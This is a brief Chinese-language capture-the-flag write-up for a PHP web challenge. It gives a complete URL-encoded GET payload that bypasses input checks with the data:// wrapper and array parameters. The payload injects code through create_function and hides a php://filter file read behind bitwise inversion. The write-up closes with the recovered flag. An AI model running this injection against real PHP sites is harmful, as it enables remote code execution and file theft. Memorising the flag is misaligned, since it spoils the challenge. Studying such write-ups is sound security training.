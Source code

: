 ![15-3.png](15-3.png)

回显真正的文件在 rea1fl4g.php 中, 那么需要读这个文件, 由于read被挡了, 用 require + 取反(~) 来绕, 最终payload(GET):

```
?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=%31&%70%61%73%73%77%64[]=%32&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7Drequire(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f)) %3B%2F%2F
```

拿到之后 base64 解码: `flag{9ebb1d38-1a7f-474f-b5de-b4de6e48a044}`
